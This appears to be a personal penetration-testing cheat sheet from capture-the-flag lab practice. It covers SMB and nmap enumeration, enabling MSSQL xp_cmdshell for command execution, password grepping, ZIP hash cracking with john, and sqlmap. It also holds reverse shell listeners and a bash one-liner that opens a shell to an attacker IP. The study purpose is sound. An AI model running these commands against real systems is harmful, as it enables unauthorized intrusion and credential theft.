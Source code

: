 ```yaml
---
title: "2022-06-28"
tags:
  - cs/hacking
programming-languages:
created: 2022-06-28
---
```

## Resources
- [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)

## Tools
### SMB
Server Message Blocks (Port 445) (aka Common Internet File System).

To enumerate:
```bash
smbclient -N -L \\\\{TARGET_IP}\\

-N: no password
-L: look at what services are available
```

To access:
```bash
smbclient -N \\\\{TARGET_IP}\\<folder>
```

When inside, **dir** prints the directories.

To download a file: **get**.

### NMAP
```bash
nmap -p- --min-rate 5000 -sV {TARGET_IP} 
nmap -sC -sV {TARGET_IP}
```

### Impacket
Can be used to connect and authenticate to a MSSQL server for example.

We can try to connect to the MSSQL server by using impacket's `mssqlclient.py` script along with the  
following flags:  
```bash
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth

-windows-auth : this flag is specified to use Windows Authentication  
```

Check if I am admin inside MSSQL:
```sql
SELECT is_srvrolemember('sysadmin');
```

To check for `xp_cmdshell`:
```sql
EXEC xp_cmdshell 'net user';
```

To activate `xp_cmdshell`:
```sql
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE;  
sp_configure; - Enabling the sp_configure as stated in the above error message  
EXEC sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;
```

We can also use the powershell like this:
```bash
xp_cmdshell "powershell -c pwd"
```

Navigation:
```bash
xp_cmdshell "powershell -c cd C:/Users/Public; dir"
```

More on MSSQL Pentesting:
- Pentesting MSSQL ([HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server))
- [MSSQL Injection CheatSheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

### BURP
Burp Suite is a powerful security testing application that can be used to perform web requests on web applications, mobile apps, and thick clients. Burp offers multiple capabilities such as web crawler, scanner, proxy, repeater, intruder and many more.  

A web crawler (also known as a web spider or web robot) is a program or automated script which browses the World Wide Web in a methodical, automated manner. This process  
is called Web crawling or spidering. Many legitimate sites, in particular search engines, use spidering as a means of providing up-to-date data.  

If you tunnel web traffic through Burp Suite (without intercepting the packets), by default it can passively spider the website, update the site map with all of the contents requested and thus creating a tree of files and directories without sending any further requests.

### Stable Reverse Shell
```bash
sudo python3 -m http.server 80
```

```bash
sudo nc -lvnp 443
```

- Functional php reverse shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### SUID
Commonly noted as SUID (Set owner User ID), the special permission for the user access level has a single function: A file with SUID always executes as the user who owns the file, regardless of the user passing the command. If the file owner doesn't have execute permissions, then use an uppercase S here.

### Useful Commands
```bash
cat * | grep -i passw*
```

### Crack a ZIP file
Turn into hash:
```bash
zip2john backup.zip > hashes
```

```bash
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
```

### SQLmap
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL injection flaws. SQLmap automates the process of detecting and exploiting SQL injection. SQL Injection attacks can take control of databases that utilise SQL.

- Command:
```bash
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --  
cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"
```

- Good shell:
```bash
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```